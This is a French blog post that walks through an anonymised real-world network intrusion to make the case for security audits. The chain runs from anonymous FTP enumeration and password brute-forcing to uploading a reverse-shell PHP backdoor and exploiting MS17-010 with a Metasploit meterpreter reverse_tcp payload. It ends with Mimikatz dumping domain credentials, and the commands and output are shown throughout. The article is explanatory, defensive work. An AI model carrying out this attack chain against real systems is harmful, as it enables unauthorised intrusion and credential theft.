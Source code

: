 # Anatomie d'une attaque informatique

Au cours de cet article, je vous propose de décortiquer le processus d'une attaque informatique à distance. Il s'agit d'un cas réel, pour lequel l'entreprise a entrepris des actions correctives. Pour des raisons éthiques, toute information potentiellement sensible a été anonymisée ou supprimée.

Comme l'indique le schéma ci-après, un attaquant (à droite et en rouge) connecté à internet, tente de s'introduire sur le réseau de l'entreprise (à gauche).

![](img/20180217102110-attaque-informatique.png)

#### Phase 1 - Découverte
En premier lieu l'attaquant va énumérer les services logiciels fournis par l'entreprise sur internet. Bien souvent le management n'a pas connaissance de l'existence de ses services, et des risques encourus
L'attaquant découvre :

- Un site internet
- Un serveur de transfert de fichiers (FTP)

Le serveur FTP est accessible en mode _anonyme_, ce qui permet une connexion sans pouvoir utiliser les fonctions de transfert de fichier. On peut considérer que le mode anonyme est "sécurisé". Toutefois il permet d'obtenir une information qui peut paraître anodine, mais qui a une grande importance pour la suite : le nom de compte d'un utilisateur "administrateur" peut être découvert lors d'une connexion anonyme.

	root@attaquant:~ $ ftp ftp.entreprise.fr
	Connected to ftp.entreprise.fr.
	220 xxx.xxx.xxx.xxx FTP server ready
	Name (ftp.entreprise.fr:root): anonymous
	331 Anonymous login ok, send your complete email address as your password
	Password:
	230 Anonymous access granted, restrictions apply
	Remote system type is UNIX.
	Using binary mode to transfer files.
	ftp> passive
	Passive mode on.

La commande `ls -lha` donne l'information concernant la présence d'un compte "admin" sur le serveur FTP.

	ftp> ls -lha
	227 Entering Passive Mode
	150 Opening ASCII mode data connection for file list
	drwxr-s---   2 admin    group       4.0k Dec  6  2017 .
	drwxr-s---   2 admin    group       4.0k Dec  7  2017 ..
	226 Transfer complete
	ftp>

#### Phase 2 - tentative d'accès non autorisé
L'attaquant sait désormais qu'une personne s'identifie auprès du serveur en tant que "admin".
Il va mener sur ce compte une simple attaque basée sur un dictionnaire de mots de passe. Ces dictionnaires sont librement téléchargeables sur le web.

Grâce à des outils comme **hydra** ou **medusa**, l'attaquant obtient le mot de passe du compte FTP admin.

    ACCOUNT FOUND: [ftp] Host : xxx.xxx.xxx.xxx
    User: admin Password: tintin [SUCCESS]

#### Phase 3 - obtenir un accès plus complet au serveur
Désormais l'attaquant en tant qu'admin, possède des permissions d'écriture sur le serveur web.
Il lui est donc permis d'envoyer sur le serveur une backdoor qui établira une connexion vers sa machine quand elle sera exécutée.


	ftp> cd html
	250 CWD command successful
	ftp> put shell.php
	local: shell.php remote: shell.php
	227 Entering Passive Mode.
	150 Opening BINARY mode data connection for shell.php
	226 Transfer complete
	1113 bytes sent in 0.00 secs (14.9499 MB/s)

L'éxécution de shell.php initie une connexion vers la machine de l'attaquant. Ce dernier dispose ainsi d'un shell sur le serveur (et plus seulement un accès FTP) qui lui permet de mener d'autres actions sur le réseau interne de l'entreprise.


#### Phase 4 : identifications des machines du réseau et de leurs vulnérabilités
L'attaquant balaie et identifie les machines du réseau. Il découvre un serveur Active Directory vulnérable à MS17-010.

	msf > use auxiliary/scanner/smb/smb_ms17_010
	msf auxiliary(scanner/smb/smb_ms17_010) > set RSHOSTS xxx.xxx.xxx.xxx/24
	rhosts => xxx.xxx.xxx.xxx/24
	msf auxiliary(scanner/smb/smb_ms17_010) > run
	[+] xxx.xxx.xxx.xxx:445     - Host is likely VULNERABLE to MS17-010! - Windows Server 2008 R2 Standard
	[*] Scanned 1 of 1 hosts (100% complete)
	[*] Auxiliary module execution completed

#### Phase 5 : exploitation de la vulnérabilité MS17-010
Grâce au framework metasploit, l'attaquant exploite la vulnérabilité MS17-010 non corrigée et obtient un accès au serveur Active Directory.

	msf auxiliary(scanner/smb/smb_ms17_010) > use exploit/windows/smb/ms17_010_psexec
	msf exploit(windows/smb/ms17_010_psexec) > set RHOST xxx.xxx.xxx.xxx
	msf exploit(windows/smb/ms17_010_psexec) > set PAYLOAD windows/meterpreter/reverse_tcp
	msf exploit(windows/smb/ms17_010_psexec) > set LPORT 443
	msf exploit(windows/smb/ms17_010_psexec) > run
	[*] Started reverse TCP handler on xxx.xxx.xxx.xxx:443
	[*] xxx.xxx.xxx.xxx:445 - Target OS: Windows Server 2008 R2 Standard 7601 Service Pack 1
	[*] xxx.xxx.xxx.xxx:445 - Built a write-what-where primitive...
	[+] xxx.xxx.xxx.xxx:445 - Overwrite complete... SYSTEM session obtained!
	[*] xxx.xxx.xxx.xxx:445 - Selecting PowerShell target
	[*] xxx.xxx.xxx.xxx:445 - Executing the payload...
	[+] xxx.xxx.xxx.xxx:445 - Service start timed out, OK if running a command or non-service executable...
	[*] Sending stage (179779 bytes) to xxx.xxx.xxx.xxx
	[*] Meterpreter session 3 opened (xxx.xxx.xxx.xxx:443 -> xxx.xxx.xxx.xxx:46491) at 2018-02-10 15:20:38
	meterpreter > background
	[*] Backgrounding session 3...

#### Phase 6 : obtention du mot de passe administrateur du domaine
Grâce à Mimikatz l'attaquant obtient le mot de passe administrateur du domaine, stocké en clair dans la mémoire de la machine.

	meterpreter> load Mimikatz
	meterpreter> wdigest
	0;1368385624  Kerberos   DOMAINE     netadmin       	 1234
	0;2500325002  Kerberos   DOMAINE     user1        	 password1
	0;68817461    Kerberos   DOMAINE     user2          	 password2
	0;2599386119  Kerberos   DOMAINE     user3		password3
	0;2600098700  Kerberos   DOMAINE     administrateur	Very$ecureP@ssw0rdVeryL0ngAndDifficultToGuess
	0;2581308498  Kerberos   DOMAINE     user8         	password8
	0;2589349129  Kerberos   DOMAINE     user4     		password4
	0;2597681195  Kerberos   DOMAINE     user5      	password5
	0;2597641064  Kerberos   DOMAINE     user6         	password6
	0;2595339032  Kerberos   DOMAINE     user7         	password7


L'accès administrateur du domaine étant obtenu, l'attaquant poursuit ses investigations sur l'ensemble des systèmes du réseau, à la recherche d'information sensibles.

#### Conclusion

L’enchaînement de plusieurs vulnérabilités peut mener à la compromission d'un réseau informatique  : tester et auditer votre sécurité.


Tags: pentest
